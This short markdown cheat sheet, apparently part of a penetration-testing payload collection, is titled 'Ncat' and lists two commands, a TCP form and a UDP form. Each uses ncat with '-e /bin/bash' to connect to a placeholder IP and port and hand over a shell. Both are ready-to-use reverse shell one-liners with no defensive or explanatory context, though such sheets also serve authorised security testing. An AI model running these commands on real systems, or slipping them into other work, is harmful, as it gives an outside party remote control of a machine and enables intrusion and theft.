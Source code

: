 # Ncat

## 01 - TCP Method

```
$ ncat <IP> <PORT> -e /bin/bash
```

## 02 - UDP Method

```
$ ncat -u <IP> <PORT> -e /bin/bash
```